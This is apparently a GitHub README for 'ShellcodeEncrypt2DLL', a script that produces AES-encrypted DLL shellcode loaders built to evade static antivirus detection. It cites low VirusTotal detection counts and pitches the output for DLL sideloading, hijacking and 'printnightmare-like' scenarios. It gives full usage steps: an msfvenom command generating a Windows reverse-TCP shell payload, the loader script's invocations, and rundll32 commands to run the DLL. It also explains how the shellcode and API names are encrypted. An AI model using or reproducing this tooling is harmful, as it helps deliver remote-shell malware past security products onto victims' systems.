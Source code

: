 # ShellcodeEncrypt2DLL

A script to generate AV evaded(static) DLL shellcode loader with AES encryption.

Shellcode and API names encryption + Dynamic API loading

Two modes:
- non-standalone: To make an encrypted DLL **WITHOUT** KEY stored in the DLL.You can use it for sideload/rundll32 but you need to pass the key. (So even if the sample is captured, the shellcode will be still difficult to recover)
- standalone: To make an encrypted DLL **WITH** KEY stored in the DLL. You can use it for sideload/hijack or in a printnightmare-like scenario.

VT: 2/72 (13/3/2025)
VT: 3/72 (14/3/2025)

![ShellcodeEncrypt2Dll_vs_VT](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250313_050702.png)

![](https://raw.githubusercontent.com/restkhz/blogImages/main/img/屏幕截图_20250313_060155.png)

## Usage

You can use this on **Kali** or other linux distributions

Dependencies:
```
pip install pycryptodome
sudo apt install mingw-w64
```


Example:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 x64/xor_dynamic -f raw > shellcode.raw

python ShellcodeEncrypt2Dll.py --non-standalone shellcode.raw
or
python ShellcodeEncrypt2Dll.py --standalone shellcode.raw
```

Then you will get a `shell.dll`

For non-standalone:
```
rundll32 <path_to_dll>,EPoint <Your KEY>
```
You can make you own exe to load this DLL with KEY as well.

For standalone:
```
rundll32 <path_to_dll>,EPoint
```

As you see, standalone and non-standalone both have `EPoint` as export function.




Your can edit your key in the python script.

## How does it work?

This script will generate a header file for template.cpp, then try to compile with `x86_64-w64-mingw32-g++`.
The `shellcode` and `function names` like `VirtuallAlloc`, `CreateThread` etc will be encrypted(AES-CBC) with key.

The standalone mode will store the key in the DLL. Decrypt itself when running.
The non-standalone mode needs your key as a parameter to decrypt itself when running.
